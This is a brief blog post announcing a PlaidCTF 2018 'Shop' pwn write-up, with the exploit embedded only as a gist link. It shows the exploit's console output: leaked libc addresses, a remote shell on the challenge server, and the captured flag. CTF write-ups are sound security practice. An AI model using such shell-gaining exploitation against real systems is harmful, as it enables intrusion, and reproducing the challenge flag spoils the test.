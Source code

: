 +++
title = "PlaidCTF: Shop (pwn)"
date = "2018-01-30T21:12:11+01:00"
tags = ["writeup", "ctf", "pwn"]
categories = ["writeup", "pwn"]
comments = true
highlight = true
draft = false
index = true
+++

Below you find the full exploit for PlaidCTF pwn200 task. Full write up will follow up.

<!--more-->

{{< gist segflow 8118ae58bea31f36d83671c212ec6079 >}}

And we run it:
```shell
[+] Opening connection to shop.chal.pwning.xxx on port 9916: Done
Stdout is at: 0x7f457d51d620
Stdin is at: 0x7f457d51c8e0
System is at: 0x7f457d19d390
[*] Switching to interactive mode
$ ls -la
total 24
drwxr-xr-x 2 root root  4096 May  5 01:33 .
drwxr-xr-x 5 root root  4096 May  5 01:33 ..
-rw-r----- 1 root shop    37 May  5 01:26 flag.txt
-rwxr-s--- 1 root shop 10520 May  5 01:26 shop
$ pwd
/home/shop
$ cat flag.txt
PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}
$ 
```

Flag: **PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}**